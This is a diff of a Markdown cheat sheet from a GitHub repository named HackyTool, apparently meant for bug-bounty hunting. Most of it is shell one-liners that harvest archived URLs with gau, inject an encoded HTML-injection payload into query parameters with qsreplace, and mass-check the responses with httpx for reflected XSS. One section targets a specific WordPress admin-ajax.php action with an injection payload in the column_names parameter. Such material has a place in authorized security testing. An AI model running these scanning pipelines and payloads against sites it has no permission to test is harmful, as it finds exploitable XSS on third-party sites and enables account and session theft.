

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/commands.md
+++ b/commands.md
@@ -16,15 +16,17 @@
 ## gau+uro+httpx(My Xss)
      cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt
 
-     uro < domains.txt | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E > domain4httpx.txt
+     cat domains.txt | uro --filter hasparams | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E > domain4httpx.txt
 
      cat domain4httpx.txt | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
 
-    #Note: have a server? use:
+    #Note: have a server ? use:
     cat domains.txt | gau --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp | uro | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
 
    ### oneLine:
-       cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt
+    cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt
+
+    cat params.js [.py|.go|paramspider.py] | uro --filter hasparams -b jpg png js json pdf txt -o 4xss.txt
 
 ## wordpressXss:
     cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200
```
